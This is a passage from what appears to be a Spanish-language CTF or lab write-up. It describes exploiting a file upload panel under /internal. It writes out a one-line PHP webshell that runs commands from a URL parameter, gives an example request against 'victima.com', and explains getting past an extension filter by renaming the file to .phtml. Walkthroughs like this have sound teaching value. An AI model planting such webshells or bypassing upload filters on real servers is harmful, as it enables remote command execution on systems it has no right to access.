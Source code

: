 Me llama la atención el directorio `/internal`, vamos a ver que es.

![20250604191841.png](/assets/media/20250604191841.png)

Pues tenemos un panel de subida de archivos, vamos a intentar subirnos un *php* malicioso para obtener una **webshell**.


# Explotación

Vamos a crearnos el archivo *shell.php* con el siguiente contenido:

```bash
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

**`$_REQUEST['cmd']`**:

- El parámetro `cmd` se obtiene de la URL a través de la variable `$_REQUEST`. En términos sencillos, esto significa que un atacante puede enviar un comando al servidor a través de la URL de la siguiente forma:

```bash
http://victima.com/webshell.php?cmd=ls
```

Vamos a probar a subirlo.

![20250604192418.png](/assets/media/20250604192418.png)

Nos dice que la extensión no está permitida, vamos a intentar *bypassear* este filtro cambiando la extensión a *.phtml*. En muchos servidores mal configurados, los archivos con esta extensión también son tratados como si fueran `php`.

![20250604192621.png](/assets/media/20250604192621.png)
